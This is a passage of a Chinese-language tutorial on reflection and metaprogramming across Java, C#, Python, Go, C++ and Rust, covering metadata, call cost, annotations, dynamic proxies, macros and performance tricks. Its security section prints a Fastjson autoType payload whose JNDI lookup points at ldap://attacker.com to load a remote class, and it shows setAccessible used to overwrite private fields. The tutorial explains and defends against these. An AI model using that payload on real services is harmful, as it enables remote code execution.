

**决策三原则**：

1. **能编译期就别运行期**——能用 `derive` / 模板 / annotation processor 就别用反射
2. **能用拦截就别用查询**——AOP 类需求 Proxy 模型表达力更强
3. **不得不用动态反射时，缓存 + ByteBuddy 兜底**——把"第一次反射的代价"摊薄到全程

---

## 3.元数据机制

### 3.1 元数据三大来源

反射的根基是**元数据从哪来**。不同语言把这件事做得截然不同：

| 来源 | 代表语言 | 元数据载体 | 何时生成 | 运行时完整度 |
|---|---|---|---|---|
| **嵌入二进制** | Java / C# / Kotlin | `.class` 常量池 / PE Metadata Stream | 编译期 | ★★★★★ |
| **嵌入运行时** | Go | `runtime._type` + `typelinks` 段 | 编译期 | ★★★★ |
| **对象自带** | Python / JS | `__dict__` / 原型链 | 运行期 | ★★★★★ |
| **几乎没有** | C++ | `type_info` + vtable | 编译期，默认丢弃 | ★ |
| **TypeId 极简** | Rust | `TypeId` + `Any` trait | 编译期 | ★ |

**Java 的元数据结构（最经典）**：

```
.class 文件
├── 魔数 0xCAFEBABE
├── 常量池（字符串、类名、字段签名、方法签名）
├── 类访问标志（public / final / abstract）
├── 字段表（name + descriptor + 注解 + 修饰符）
├── 方法表（name + descriptor + 字节码 + 注解）
└── 属性表
    ├── RuntimeVisibleAnnotations  ← 注解保留在这里！
    ├── InnerClasses
    ├── BootstrapMethods           ← invokedynamic 的金钥匙
    └── ...
```

JVM 加载 `.class` 时，把这些表**反序列化**成 `Class<?>` 对象，挂到方法区。这就是为什么 Java 反射"看上去什么都能拿到"——因为字节码本来就什么都带着。

**Go 的元数据结构（看一眼）**：

```go
// runtime/type.go（简化）
type _type struct {
    size       uintptr     // 类型大小
    hash       uint32      // 类型 hash
    kind       uint8       // Kind: Int/Struct/Map/Func...
    str        nameOff     // 类型名字偏移
    ptrdata    uintptr     // GC 用：含指针的字节数
    fields     []structField  // 仅 struct 类型有
    methods    []method       // 方法表
}
```

每个类型在编译期被生成一个 `_type` 实例，链接进 `.rodata` 段。`reflect.TypeOf(x)` 拿到的就是这个 `_type` 指针的包装。

**这也解释了一个常见误解**：

> "编译型语言就不能有完整反射" —— **错**。
>
> Java 是编译型，反射完整；C++ 也是编译型，反射弱。
>
> 反射强弱不取决于编译型，而取决于**是否选择把元数据带到运行时**——这是**设计取舍**而非**技术限制**。

### 3.2 反射调用三段式

不管哪门语言，反射调用一个方法都要走下面这三步：



**第一步：定位**

```java
// 在哈希表里按 (name, descriptor) 查找
Method m = User.class.getMethod("setName", String.class);
```

底层是 `Class` 对象内部的 `MethodArray` + 一个 `name → index` 的哈希表。**这一步开销不大**——除非你每次都查（很多代码犯这个错），那就是 O(n) 累计了。

**第二步：装箱与校验**

```java
m.invoke(user, "Tom");
// 实际上 invoke 的签名是 invoke(Object obj, Object... args)
// 如果 m 接受 int，传进来的 Integer 要拆箱
// 如果 m 抛 checked exception，要包装成 InvocationTargetException
```

这一步是反射调用慢的**第二大元凶**——基本类型反复装箱拆箱，参数数组创建丢弃。

**第三步：分派**

```java
// 老反射：
//   前 16 次走 Java 实现的 NativeMethodAccessor（JNI 调用，慢）
//   超过 16 次：JVM 动态生成 GeneratedMethodAccessor 字节码（快得多）
// 这就是为什么"反射热身后会变快"
```

**这是 JVM 反射的精妙设计**——叫 "InflatableMethodAccessor"。前 16 次用通用慢路径，过了阈值就**动态生成专用字节码**。`-Dsun.reflect.inflationThreshold=0` 可以让它从第一次就走快路径。

**反射三段式的六语言落地对照**——这才是本节最有冲击力的一张表：

| 语言 | ① 定位 | ② 装箱/校验 | ③ 分派 |
|---|---|---|---|
| **Java** | `Class.getMethod(name, params)` 查 hash 表 | 基本类型必须装箱（`int`→`Integer`），`Object[]` 装参数 | Native → 16 次后 inflate 生成字节码；MethodHandle 走 invokedynamic |
| **C#** | `Type.GetMethod(name)` 查 metadata table | 值类型必须装箱（`int`→`object`），`object[]` 装参数 | RyuJIT 走通用 stub；`Reflection.Emit` 生成 DynamicMethod 后直调 |
| **Python** | `getattr(obj, name)` → 查 `__dict__` → 查 `__mro__` 链 | **无装箱**（一切皆 PyObject\*） | C 层调用 `tp_call` 函数指针 |
| **JavaScript** | `obj[name]` → hidden class lookup → fallback 字典查找 | **无装箱**（一切皆 Value） | V8 IC + 4 层 JIT，热点接近直调 |
| **Go** | `Type.Method(i)` 走 `_type.mhdr` 数组 | `reflect.Value.Interface()` 触发装箱（基本类型→`interface{}`） | `reflect.Value.Call` 用 `call()` 汇编 stub 转 ABI |
| **C++** | RTTI 仅能 `typeid`/`dynamic_cast`，**不能按名查方法** | N/A | N/A（运行时反射调用不可达） |
| **Rust** | 仅 `TypeId` 比较（仅判断类型相等） | N/A | N/A（运行时反射调用不可达） |

**深层结论**：

```
反射"慢"的根因，对所有语言都一样：
  ① 定位：哈希查找 / 字符串比较 → ~10-50ns
  ② 装箱：基本类型 → Object/interface{} → ~10-30ns
  ③ 分派：通用 stub 无法被 JIT 内联 → 直接调用的 5-50×

无装箱的语言（Python/JS）反射开销相对较小（本来就慢）
有装箱的语言（Java/C#/Go）反射慢于直调 10-50×
完全无运行时反射的语言（C/C++/Rust）这道开销被消灭在编译期
```

📌 **跨语言启示**：**任何语言的反射加速套路本质都是同一件事——"绕开三段式中的某一段或全部"**：
- 绕开①：缓存 `Method`/`Field` 引用
- 绕开②：用 `MethodHandle.invokeExact` / `Reflection.Emit` 用精确签名
- 绕开③：用 ByteBuddy / Source Generators / derive 宏 **生成专属直调代码**

### 3.3 反射性能瓶颈深度剖析

```java
// 微基准（典型 Hot JIT 后的数据）
直接调用 user.setName("Tom"):                     2-3 ns
MethodHandle.invokeExact:                          3-5 ns
Method.invoke (热) - 已 inflate:                   30-50 ns
Method.invoke (冷) - 还在 NativeAccessor:          200-500 ns
反射 + 每次都 getMethod:                            500-2000 ns
```

**三大开销源 + 对应优化**：

| 开销源 | 占比 | 优化手段 |
|---|---|---|
| **元数据查找** | 40% | 把 `Field/Method` 缓存在 `static final` 字段 |
| **参数装箱** | 35% | `MethodHandle.invokeExact` 避免装箱 |
| **JIT 优化失败** | 25% | `MethodHandle` + `invokedynamic` 走 JIT 友好路径 |

**为什么 JIT 优化反射会失败？**

```java
// JIT 看到这段代码
for (int i = 0; i < 1000000; i++) {
    method.invoke(user, args);
}
// 它没法静态推断 method 到底是什么——
// 这一轮调的可能是 setName，下一轮调的可能是 setAge
// 没法做内联，没法做去虚拟化，热点编译几乎无效
```

而 `MethodHandle` 配合 `invokedynamic` 不一样——`invokedynamic` 会做"目标缓存"，JIT 看到稳定目标后能内联进去：

```java
private static final MethodHandle SETNAME = MethodHandles.lookup()
    .findVirtual(User.class, "setName", MethodType.methodType(void.class, String.class));

void hotPath(User u, String name) throws Throwable {
    SETNAME.invokeExact(u, name);   // JIT 能识别这是稳定 handle，能内联
}
```

**业界最高级的反射性能优化**——**字节码生成**：

```java
// Jackson 的 afterburner 模块、Spring 5+ 的 reflection enhancer
// 它们做的是:
//   ① 第一次反射时，扫描类生成专属的 GeneratedAccessor
//   ② 后续调用走的是 GeneratedAccessor.setName(user, name) 这种直接调用
//   ③ 性能逼近手写代码（差距 < 10%）
```

ByteBuddy / ASM / Javassist 是这个领域的三大武器。

### 3.4 注解的元数据本质

**注解（Annotation）的本质就是元数据**。它不影响代码逻辑，只是给代码贴标签。

```java
@Retention(RetentionPolicy.RUNTIME)
@Target(ElementType.METHOD)
public @interface Test {
    String description() default "";
}

public class UserTest {
    @Test(description = "测试用户创建")
    public void testCreate() { /* ... */ }
}
```

注解被存储在哪？**`.class` 文件的 `RuntimeVisibleAnnotations` 属性表**。JVM 加载时把它们作为 `Annotation` 对象挂到 `Method`/`Field`/`Class` 上。

**JUnit 的全部秘密**——就是反射 + 注解：

```java
public class MiniJUnit {
    public static void runAll(Class<?> testClass) throws Exception {
        Object instance = testClass.getDeclaredConstructor().newInstance();
        for (Method m : testClass.getDeclaredMethods()) {
            if (m.isAnnotationPresent(Test.class)) {
                Test ann = m.getAnnotation(Test.class);
                System.out.println("running: " + ann.description());
                try {
                    m.invoke(instance);
                    System.out.println("  ✓ passed");
                } catch (InvocationTargetException e) {
                    System.out.println("  ✗ failed: " + e.getCause());
                }
            }
        }
    }
}
```

短短 20 行就是 JUnit 的核心引擎——**找带 `@Test` 的方法，反射调用，捕获异常**。这就是为什么我们说"注解 + 反射 = 框架的发动机"。

**注解的三种保留策略**：

| 策略 | 何时存在 | 典型用途 |
|---|---|---|
| `SOURCE` | 仅源码可见，编译期就丢 | `@Override`、`@SuppressWarnings`，给编译器看 |
| `CLASS` | 进入 `.class` 但运行时不可见 | 字节码工具用，如 ProGuard |
| `RUNTIME` | 运行时可反射读取 | Spring `@Autowired`、JUnit `@Test`、Jackson `@JsonProperty` |

**小结**：注解不是"魔法"，它就是**贴在代码上的、可被反射读取的标签**。框架做的事，永远是"扫描有这个标签的成员，按预定逻辑处理"。

---

## 4.反射安全与权限

反射的强大伴随着同等强大的危险。这一章拆开看反射如何破封装、如何被滥用、以及现代语言的应对。

### 4.0 反射安全的通用模型（不限 Java）

进入 Java `setAccessible` 讨论前，先把一个**所有支持运行时反射的语言**都成立的安全模型抽象出来——**反射的危险性 = 它能突破多少层语言原生防御**：

| 防御层 | 反射的攻击姿势 | Java | C# | Python | JS | Go |
|---|---|---|---|---|---|---|
| **访问修饰符**（private/protected） | 强制访问 | `setAccessible(true)` | `BindingFlags.NonPublic` | 无（一切都是公开的） | 无 | `reflect.Value.Field()` |
| **类型系统** | 写入错误类型 | `Field.set` 不做类型校验 | `FieldInfo.SetValue` 弱校验 | 一切都是 PyObject | 一切都是 Value | `Value.SetXxx` 强校验 |
| **不可变性**（final/readonly） | 修改不可变字段 | `setAccessible` 后能改 final | `readonly` 反射可改 | 无 immutability | `Object.freeze` 可绕 | 不可改 |
| **模块边界**（module/internal） | 跨模块访问私有 | JDK 9+ 模块系统拦截 | `internal` 反射可绕 | 无概念 | 无概念 | 无概念 |
| **反序列化构造** | 不走构造函数造对象 | `Unsafe.allocateInstance` | `FormatterServices.GetUninitializedObject` | `__new__` | 无 | 无（必走构造） |
| **任意代码加载** | 加载不可信代码 | `ClassLoader.defineClass` | `Assembly.Load` | `exec`/`eval`/`pickle` | `eval`/`Function()` | `plugin.Open` |

**通用威胁模型——所有语言都遵循**：

```
攻击者输入：不可信的字节流/字符串/类名
  ↓ 反序列化/动态加载
反射：构造任意类型 + 调用任意 setter/方法
  ↓
触发副作用：JNDI 查询 / 进程执行 / 文件读写
  ↓
RCE（远程代码执行）
```

**关键洞察**——**反射本身不可怕，"反射 + 反序列化 + 危险副作用方法" 才可怕**：

| 语言 | 等价"利用链"形态 |
|---|---|
| **Java** | Jackson autoType / Fastjson autoType（CVE-2017-7525、CVE-2020-25641） |
| **C#** | `BinaryFormatter`（已被官方标记为危险，.NET 8 默认禁用）+ JSON.NET TypeNameHandling.All |
| **Python** | `pickle.loads`（**永远不能**反序列化不可信输入） |
| **JavaScript** | `eval`/`Function()` + Node.js `vm` 模块 + 原型链污染 |
| **Go** | `gob` + `plugin.Open`（生产环境慎用） |
| **PHP** | `unserialize` + 魔术方法 `__wakeup/__destruct`（同源） |

**通用防御原则——所有语言一致**：

1. **不反序列化不可信输入**（最强防线，所有语言通用）
2. **白名单允许的类型**（Java ObjectInputFilter、Python `pickle.Unpickler.find_class`）
3. **关闭多态默认**（Jackson `disableDefaultTyping`、JSON.NET `TypeNameHandling.None`）
4. **运行时探针**（Java Agent、Python audit hooks、Node.js `process.dlopen` 监控）
5. **代码审查 + 依赖审计**（OWASP Dependency-Check / pip-audit / npm audit）

📌 **跨语言重述**：**"反序列化漏洞" 不是 Java 的专利——是所有支持运行时反射的语言的共同隐患**。下文 §4.1-§4.4 用 Java 当主样本，但你写 C#/Python/JS/Go 的时候，请对号入座。

### 4.1 setAccessible 的代价

`setAccessible(true)` 这一行看似无害，实际上**绕过了 Java 的访问控制系统**：

```java
class Account {
    private double balance = 1000;
}

Account a = new Account();
Field f = Account.class.getDeclaredField("balance");
f.setAccessible(true);                    // 这一行就破了 private
f.set(a, -999999);                        // 余额变负数
```

`setAccessible(true)` 做了什么？它把 `AccessibleObject.override` 标志位设为 `true`，让 JVM 在调用时跳过 `checkAccess` 检查。代价：

- **封装被破坏**：所有不变量保护失效
- **JIT 优化变难**：私有字段本来 JIT 可以做激进的内联与优化，现在不能
- **跨模块依赖被埋藏**：你的代码偷偷依赖了别人的私有实现

**经典反例**——某 ORM 框架的"骚操作"：

```java
// 直接反射改 String 的 char[]，让所有相同字符串都被改掉
Field f = String.class.getDeclaredField("value");
f.setAccessible(true);
f.set("Hello", "World".toCharArray());
System.out.println("Hello");  // 输出 "World"！全 JVM 范围灾难
```

JDK 9 之后 String 的内部结构改了（变成 `byte[]` 加 coder），并且模块系统直接拒绝这种反射——然而**老代码遍地都是**，每次 JDK 升级都翻车。

### 4.2 模块系统的反射拦截

JDK 9 引入了 JPMS（Java Platform Module System），核心目的之一就是**把反射关进笼子**：

```java
// module-info.java
module com.acme.app {
    requires java.base;
    opens com.acme.internal;          // 显式开放给所有模块反射
    opens com.acme.dao to spring.core; // 仅向 Spring 开放
}
```

**`opens` vs `exports` 的差别**：

- `exports`：允许其他模块在编译期导入和使用——但只限于 public 成员
- `opens`：允许其他模块**反射访问私有成员**——这是反射专属许可

**JDK 16 后的强约束**：

```
WARNING: An illegal reflective access operation has occurred
WARNING: Illegal reflective access by com.acme.Foo (file:/foo.jar)
to method java.lang.String.charAt(int)
WARNING: All illegal reflective access operations will be denied
in a future release
```

这不再是警告——JDK 17 开始**直接拒绝**。要么用 `--add-opens java.base/java.lang=ALL-UNNAMED`，要么改代码不再依赖私有 API。

**这就是为什么很多老 Spring/Hibernate 项目升级 JDK 17 会大量报错**——它们底层都在偷偷反射访问 JDK 私有字段。

### 4.3 反序列化漏洞案例

反射 + 反序列化 = **远程代码执行（RCE）**温床。这是过去十年 Java 安全漏洞的最大来源。

**经典攻击模式**：

```java
// 攻击者构造的恶意 JSON
String payload = "{\"@type\":\"com.sun.rowset.JdbcRowSetImpl\","
               + "\"dataSourceName\":\"ldap://attacker.com/Exp\","
               + "\"autoCommit\":true}";

// Fastjson 早期版本会做的事
Object obj = JSON.parse(payload);
// → 反射调用 setDataSourceName 触发 JNDI 查询
// → JNDI 从 ldap://attacker.com 拉取并执行远程 class
// → RCE 完成
```

**漏洞的本质**：

- Jackson/Fastjson 的 `@type` 多态反序列化默认开启
- 任何带 setter 的类都可以被远程构造
- JDK 内置一些类的 setter 会触发危险副作用（JNDI、RMI、Runtime.exec）

**著名漏洞**：

| CVE | 影响 | 根因 |
|---|---|---|
| CVE-2017-7525 | Jackson | 多态默认反序列化 |
| CVE-2019-12384 | Jackson | logback JNDI gadget |
| CVE-2020-25641 | Fastjson | autoType 黑名单绕过 |
| Log4Shell (CVE-2021-44228) | Log4j2 | 不算反射但同源——JNDI 查询触发反射加载 |

**这些漏洞的共同模式**：

```
不可信输入 → 反序列化 → 反射构造任意类 → 链式 setter 触发副作用 → RCE
```

### 4.4 防护手段全景



**Java 反序列化 8 道防线**（按推荐度）：

1. **不要反序列化不可信输入**（最强）
2. **`ObjectInputFilter`** 设置类名白名单
3. **Jackson 配置** `disableDefaultTyping`、`activateDefaultTyping(LaissezFaireSubTypeValidator)`
4. **Fastjson 升 2.0** 默认安全模式
5. **JDK 17+** 享受默认强封装
6. **依赖审计**（OWASP Dependency-Check）
7. **运行时探针**（Java Agent 检测危险反射）
8. **代码审查** 任何 `setAccessible(true)` 都需双人 review

**Python 的对应防护**：

```python
# 危险：pickle 反序列化能执行任意代码
pickle.loads(untrusted_data)  # 千万别！

# 安全：用 json/msgpack 这种数据格式
json.loads(untrusted_data)    # 只能拿到基本数据，没反射风险
```

---

## 5.元编程：让代码生成代码

反射是"程序观察自己"，元编程是"程序改造自己"——后者比前者更进一步，是反射的"主动模式"。

### 5.1 三种元编程风格



| 风格 | 何时执行 | 改造对象 | 性能 | 代表 |
|---|---|---|---|---|
| **运行时** | 程序运行中 | 对象/类的内存表示 | 慢（反射开销） | Java reflect、JS Proxy、Spring |
| **编译时** | 编译过程中 | 类型/常量值 | 快（生成的就是直接代码） | C++ 模板、Rust const fn |
| **词法** | 编译开始前 | 源码 AST | 极快 | Lisp macro、Rust macro_rules! |

**选择原则**：能编译期解决的，绝不放运行期；能词法解决的，绝不进类型系统。

### 5.2 运行时元编程：动态代理

JDK 动态代理是 Java 运行时元编程的招牌——**凭空造一个实现接口的类**：

```java
public interface UserService {
    String getName(int id);
}

// 没有任何类实现 UserService，但下面这行能跑
UserService proxy = (UserService) Proxy.newProxyInstance(
    UserService.class.getClassLoader(),
    new Class[]{UserService.class},
    (p, method, args) -> {
        System.out.println("拦截到: " + method.getName());
        if (method.getName().equals("getName")) return "Tom";
        return null;
    }
);
System.out.println(proxy.getName(1));    // 输出：Tom
```

**底层做了什么**？JVM 动态生成了一个名为 `$Proxy0` 的类，字节码大致是：

```java
public final class $Proxy0 extends Proxy implements UserService {
    private static Method m3 = UserService.class.getMethod("getName", int.class);

    public String getName(int id) {
        return (String) h.invoke(this, m3, new Object[]{id});
    }
}
```

**JDK 代理的限制**：只能代理接口。要代理类，得用 **CGLIB / ByteBuddy**——它们生成的是被代理类的子类，重写所有非 final 方法。

**Spring AOP 的真实形态**：

```java
@Service
public class UserService { @Transactional public void save(User u) {...} }

// Spring 在背后做的事：
//   ① 看到 @Transactional → 决定要织入事务切面
//   ② 用 CGLIB 生成 UserService 的子类 UserService$$EnhancerByCGLIB
//   ③ 子类重写 save 方法：先开事务、调父类 save、提交事务
//   ④ 容器返回的"UserService"实际上是这个子类的实例
```

这就是为什么 Spring 容器里拿到的 bean 不是你写的那个类——**是它运行时生成的子类**。

### 5.3 编译期元编程：模板与const fn

**C++ 模板元编程（TMP）**——图灵完备的"编译期计算"：

```cpp
// 阶乘
template<int N> struct Fact { enum { V = N * Fact<N-1>::V }; };
template<>      struct Fact<0> { enum { V = 1 }; };
static_assert(Fact<10>::V == 3628800);   // 编译期就算完了

// 类型级别的"if"
template<bool C, typename T, typename F>
struct conditional { using type = T; };
template<typename T, typename F>
struct conditional<false, T, F> { using type = F; };

using R = conditional<sizeof(int) == 4, int, long>::type;
// R 在编译期就被决定为 int 或 long
```

模板元编程**威力恐怖**——Boost、Eigen、Hana 整个库都是它的产物。但**心智代价也恐怖**——错误信息一屏幕都看不完。

**Rust 的 `const fn`** 把这一切变得现代化：

```rust
const fn fact(n: u64) -> u64 {
    if n == 0 { 1 } else { n * fact(n - 1) }
}
const F10: u64 = fact(10);   // 编译期求值，没有运行时开销

// const generics（Rust 1.51+）
struct Buf<const N: usize> { data: [u8; N] }
let b: Buf<1024> = Buf { data: [0; 1024] };  // N 是编译期常量
```

**C++26 的 P2996 静态反射**（即将到来）：

```cpp
// 还在标准化中，但语法大致这样
struct Point { int x, y; };

template<typename T>
void print_struct(const T& t) {
    template for (constexpr auto member : std::meta::nonstatic_data_members_of(^T)) {
        std::cout << std::meta::identifier_of(member)
                  << " = " << t.[:member:] << "\n";
    }
}
print_struct(Point{1, 2});  // x = 1\n y = 2
```

C++ 终于要拥有完整的编译期反射——这是 30 年的等待。

### 5.4 宏系统：把语法树当值

宏是元编程的最高级形态——**把代码本身当作可操作的数据**。

**Rust `macro_rules!`（声明宏）**：

```rust
macro_rules! vec_of {
    ($($x:expr),*) => {{
        let mut v = Vec::new();
        $( v.push($x); )*
        v
    }};
}

let v = vec_of![1, 2, 3];
// 编译期展开为：
// let v = { let mut v = Vec::new(); v.push(1); v.push(2); v.push(3); v };
```

**Rust 过程宏**——更强大，能直接生成任意代码：

```rust
#[derive(Debug, Clone, Serialize, Deserialize)]
struct User { name: String, age: u32 }

// 编译期为 User 生成了：
//   impl Debug for User { ... }       // 200+ 行代码
//   impl Clone for User { ... }
//   impl Serialize for User { ... }
//   impl<'de> Deserialize<'de> for User { ... }
```

**为什么 serde 比 Jackson 快 5 倍**？因为：

- Jackson 走运行时反射，每个字段 = 1 次 `Field.get` + 1 次 装箱 + 1 次写出
- serde 在编译期为 `User` **生成了一个专属的序列化器函数**——直接 `write!(buf, "\"name\":\"{}\",\"age\":{}", self.name, self.age)`
- 同样语义，运行时代价完全不同

**这就是元编程的终极价值**：**把"通用框架"翻译成"针对具体类型的专属代码"**。

---

## 6.性能优化机制

反射慢，但不是"必须慢"。这一章把工业界把反射做快的所有套路集中起来看。

### 6.1 反射缓存

**最基础也最容易被忽视的优化**——把 `Field`/`Method` 缓存起来：

```java
// ❌ 反例：每次反射查找
public class BadJsonUtil {
    public static String toJson(Object obj) throws Exception {
        for (Field f : obj.getClass().getDeclaredFields()) {  // 每次都查
            f.setAccessible(true);                             // 每次都设
            // ...
        }
    }
}

// ✅ 正例：反射结构缓存
public class GoodJsonUtil {
    private static final Map<Class<?>, Field[]> CACHE = new ConcurrentHashMap<>();

    public static String toJson(Object obj) throws Exception {
        Field[] fs = CACHE.computeIfAbsent(obj.getClass(), c -> {
            Field[] arr = c.getDeclaredFields();
            for (Field f : arr) f.setAccessible(true);
            return arr;
        });
        // ... 走缓存的 fs
    }
}
// 性能提升：典型场景 5-10x
```

**缓存的层级（从粗到细）**：

1. `Class<?> → Field[]`：拿到一个类的所有字段
2. `Class<?> + name → Field`：按名字定位字段
3. `Class<?> + name + paramTypes → Method`：按签名定位方法
4. `Field → MethodHandle`：进一步把字段访问变 MethodHandle

### 6.2 MethodHandle 加速

**Java 7 引入的 MethodHandle 是反射的"二代机"**：

```java
public class FastReflection {
    private static final MethodHandle USER_GET_NAME;
    static {
        try {
            USER_GET_NAME = MethodHandles.lookup()
                .findVirtual(User.class, "getName", MethodType.methodType(String.class));
        } catch (Throwable t) { throw new RuntimeException(t); }
    }

    public String hot(User u) throws Throwable {
        return (String) USER_GET_NAME.invokeExact(u);   // 性能接近直接调用
    }
}
```

**`invoke` vs `invokeExact` 的区别（重要）**：

- `invoke`：会做参数自动转换（int → Integer 等），慢 2-3 倍
- `invokeExact`：参数类型必须**精确匹配**，否则 `WrongMethodTypeException`，但性能逼近原生

**MethodHandle 性能的核心秘密**——`invokedynamic` 字节码：

```
普通反射调用： invoke(Object, Object[])     ← JIT 难优化（目标不稳定）
MethodHandle： invokedynamic + BootstrapMethod ← JIT 能内联（目标稳定可推断）
```

JIT 看到一个 `invokedynamic` 指令，能从 `BootstrapMethod` 知道"这个调用点稳定指向某个方法"，于是**整个调用都能内联进去**。这就是 Lambda、Kotlin 协程、JRuby 的运行时基石。

### 6.3 字节码生成：ASM与ByteBuddy

终极武器——**运行时直接生成字节码**：

```java
// ByteBuddy 生成一个反射存根
Class<?> dynamicType = new ByteBuddy()
    .subclass(UserAccessor.class)
    .method(ElementMatchers.named("getName"))
    .intercept(MethodCall.invoke(User.class.getMethod("getName"))
                         .onArgument(0))
    .make()
    .load(getClass().getClassLoader())
    .getLoaded();

// 拿到的是一个 normal Java 类，调用没有任何反射开销
UserAccessor a = (UserAccessor) dynamicType.getDeclaredConstructor().newInstance();
String name = a.getName(user);   // 直接调用！
```

**典型应用**：

- **Jackson Afterburner**：`-Djackson.afterburner.useValueClassLoader=true`，性能提升 30-40%
- **Spring 5+ ReflectionUtils**：CGLIB 生成访问器
- **Mockito**：用 ByteBuddy 生成 Mock 子类
- **ORM 框架**：Hibernate 用 ByteBuddy 做懒加载代理

### 6.4 编译期生成：serde 思路

**最快的反射就是没有反射**——把它推到编译期：



**Java 阵营的对应方案**：

| 工具 | 何时生成 | 输入 | 输出 |
|---|---|---|---|
| **APT (Annotation Processor Tool)** | javac 阶段 | 源码 + 注解 | 新的 Java 源文件 |
| **Lombok** | javac 阶段 | `@Data` 注解 | AST 修改注入 getter/setter |
| **MapStruct** | APT | `@Mapper` 接口 | 类型间转换的实现类 |
| **AutoValue** | APT | 抽象类 | 不可变值类的实现 |

**对比表**：

```
方案                  性能（相对）   灵活性   学习曲线
直接代码               1.0x          差       低
反射                   0.05x         极佳     中
反射+缓存              0.3x          佳       中
MethodHandle           0.7x          佳       高
ByteBuddy 生成         0.95x         极佳     高
APT/Lombok/serde       1.0x          中等     中
```

**业界共识**：**热路径用编译期生成，冷路径用反射 + 缓存，从不用裸反射**。

---

## 7.跨语言反射对比

### 7.1 Java：Class + Method + Field

**三位一体**：每个类都有一个 `Class<?>` 对象，每个字段/方法都有对应 `Field`/`Method`。Java 是动态反射的标杆。

```java
public class UserJsonizer {
    private static final Map<Class<?>, Field[]> CACHE = new ConcurrentHashMap<>();

    public static String toJson(Object obj) throws Exception {
        Class<?> c = obj.getClass();
        Field[] fs = CACHE.computeIfAbsent(c, cls -> {
            Field[] arr = cls.getDeclaredFields();
            for (Field f : arr) f.setAccessible(true);
            return arr;
        });
        StringBuilder sb = new StringBuilder("{");
        for (int i = 0; i < fs.length; i++) {
            if (i > 0) sb.append(",");
            sb.append("\"").append(fs[i].getName()).append("\":")
              .append(format(fs[i].get(obj)));
        }
        return sb.append("}").toString();
    }

    private static String format(Object v) {
        if (v == null) return "null";
        if (v instanceof Number || v instanceof Boolean) return v.toString();
        return "\"" + v + "\"";
    }
}
```

**Java 反射特色**：

- 元数据完整（继承、接口、泛型签名都在）
- 性能可优化（MethodHandle、ByteBuddy）
- 安全管控（模块系统）
- **缺点**：泛型擦除让 `List<String>` 在反射里变成 `List<Object>`

### 7.2 C#：Type + Reflection.Emit

**C# 的反射比 Java 更强**——不仅能读，还能**凭空发射 IL 并执行**：

```csharp
// 动态生成一个加法方法
